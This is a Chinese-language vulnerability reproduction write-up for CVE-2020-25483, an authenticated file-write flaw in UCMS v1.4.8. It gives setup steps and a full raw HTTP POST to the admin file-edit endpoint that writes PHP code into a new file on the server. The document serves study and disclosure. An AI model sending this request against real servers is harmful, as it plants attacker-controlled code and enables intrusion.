



# UCMS 文件上传漏洞 CVE-2020-25483

## 漏洞描述

UCMS v1.4.8版本存在安全漏洞，该漏洞源于文件写的fopen()函数存在任意命令执行漏洞，攻击者可利用该漏洞可以通过该漏洞访问服务器。

## 环境搭建

到官网http://uuu.la/下载源码（http://uuu.la/uploadfile/file/ucms_1.4.8.zip），解压到web目录，访问[http:///install/index.php](http://127.0.0.1/opensis/install/index.php)进行安装。

访问/ucms/login.php，显示正常及环境安装成功。



## 漏洞复现

登录账户



poc：

访问/ucms/index.php?do=sadmin_fileedit&dir=/&file=1.php抓包。

写入php代码，发送。

```
POST /ucms/index.php?do=sadmin_fileedit&dir=/&file=1.php HTTP/1.1

Host: ucms.com

Content-Length: 58

Cache-Control: max-age=0

Upgrade-Insecure-Requests: 1

Origin: http://ucms.com

Content-Type: application/x-www-form-urlencoded

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.66 Safari/537.36 Edg/87.0.664.41

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Referer: http://ucms.com/ucms/index.php?do=sadmin_fileedit&dir=/&file=CNVD.php

Accept-Encoding: gzip, deflate

Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6

Cookie: admin_213f42=admin; psw_213f42=0ef8fa2c997f64b78cde98b6c7c9cc0a; token_213f42=78012aac

Connection: close


uuu_token=78012aac&co=%3C%3Fphp+phpinfo%28%29%3F%3E&pos=17
```

get /1.php

